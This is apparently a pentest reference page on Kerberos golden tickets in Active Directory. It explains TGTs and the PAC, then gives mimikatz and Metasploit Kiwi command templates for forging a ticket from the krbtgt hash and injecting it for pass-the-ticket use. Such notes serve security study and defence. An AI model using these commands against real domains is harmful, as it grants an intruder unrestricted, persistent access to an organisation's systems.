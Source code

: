 # Active Directory - Kerberos Golden Tickets

### Overview

`Kerberos` is an authentication protocol, used within Active Directory that
rely on the use of tickets to identify users and grant access to domain
resources. `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A `TGT` is generally requested by an user through a `KRB_AS_REQ` request to the
`AS` of the `KDC` during the login process on a Windows system integrated to an
Active Directory domain. `TGTs` are encrypted using one of the secrets
(`RC4 key`, whose value is identical to the `NTLM` hash, or `AES 128/256 bits
keys`) of the `krbtgt` account of the domain. After reception of the `TGT`,
in a `KRB_AS_REP` response from the `KDC`, `TGT` are stored in memory by the
client in the `Security Support Provider (SSP) Kerberos` of the `Local Security
Authority Server Service (LSASS)` process.

An user authentication data is stored encrypted (using one of the secrets of
the `krbtgt` account) in the `Privilege Attribute Certificate (PAC)` of the
`TGT` and includes:
  - The `Domain SID` and `User RID`, which combination form the user's current
  `Security Identifier (SID)`
  - the user's `SIDs` kept in its `SIDHistory` attribute
  - The `GROUP_MEMBERSHIP_ARRAY` which contains the user's group memberships,
  in the form of the groups `Relative ID (RID)`.

Whenever generating a `service ticket`, the `TGT`'s `PAC` will be decrypted by
the `KDC`, signed using both one of the secrets of the `krbtgt` account
(`KDC Signature`) and of the targeted service account (`Server Signature`), and
ultimately encrypted using one of the secrets the targeted service account.

`Golden tickets` are `TGT` forged with arbitrary authentication data. Indeed,
the specified username, groups `RID` and `SIDs` will be added to the forged
ticket `PAC`. The `golden ticket` can be injected in the current user session
and used to directly request `service tickets` from the `TGS`.

To generate a `golden ticket`, the following prerequisites are needed:
  - The fully qualified domain name and the `SID` of the targeted domain.
  - One of the secrets of the targeted domain `krbtgt` account. The `krbtgt`
  `RC4` key, corresponding to the `NTLM hash` of the `krbtgt` password, as
  well as the `AES 128/256 bits` keys can be used.

Note that while the user account specified for the `golden ticket` must be a
member of the targeted domain, the arbitrary SIDs added in the SID history of
the forged ticket (`ExtraSids` field of the `PAC`) can come from external
domains or forests (for which trusts relationships are configured).

### Golden tickets generation

###### mimikatz

The `mimikatz` `kerberos::golden` module can be used to generate
`golden tickets`:

```
# Powershell RATS
Get-ADDomain | Ft DNSRoot, DomainSID

mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> [/rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>] [/groups:<RID | RID_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>]
```

###### mimikatz with Metasploit

`mimikatz` 2.0 is available in a `meterpreter` shell as the `Kiwi` extension.

To following command can be used to load the extension in memory on a
`meterpreter` shell: `use kiwi`

Once the module has been loaded, the `golden_ticket_create` command can be
used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the `kerberos_ticket_use` and
`kerberos_ticket_purge` commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Golden tickets usage (Pass-the-Ticket)

On Windows, `golden tickets` generated using `mimikatz` will be automatically
injected in the current logon session if the `/ptt` option is specified.
Otherwise, an exported `golden ticket` can be injected using
`mimikatz.exe "kerberos::ptt <TICKET_FILE_PATH>` for example.

On Linux, `golden tickets`, in the `credential cache (ccache)` format can be
exported in the `KRB5CCNAME` environment variable for further use through tools
supporting the `Kerberos` protocol, such as `Impacket` Python utilities.

Refer to the `[ActiveDirectory] Kerberos tickets usage` for more information on
techniques and tools to leverage `golden tickets`.
